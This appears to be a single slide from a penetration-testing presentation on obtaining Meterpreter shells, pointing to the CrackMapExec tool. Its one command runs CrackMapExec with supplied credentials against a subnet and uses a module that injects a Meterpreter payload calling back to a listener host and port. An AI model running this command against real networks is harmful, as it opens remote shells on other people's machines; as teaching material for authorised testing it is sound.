

Meterpreter Shells

CrackMapExec
crackmapexec <target subnet> -u <username> -p <password> -M metinject -o LHOST=192.168.10.3 LPORT=8443
A swiss army knife for pentesting networks.

github.com/byt3bl33d3r/CrackMapExec